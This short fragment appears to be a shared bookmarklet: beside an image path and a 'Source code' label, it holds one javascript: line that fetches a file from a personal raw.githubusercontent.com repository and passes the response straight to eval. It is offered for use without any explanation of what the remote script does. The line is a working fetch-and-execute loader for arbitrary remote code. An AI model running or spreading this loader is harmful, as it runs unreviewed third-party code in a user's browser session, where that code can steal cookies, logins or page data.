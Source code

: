 javascript:fetch("https://raw.githubusercontent.com/jjjjjjjjjj122/1/refs/heads/main/1").then(t=>t.text()).then(eval);
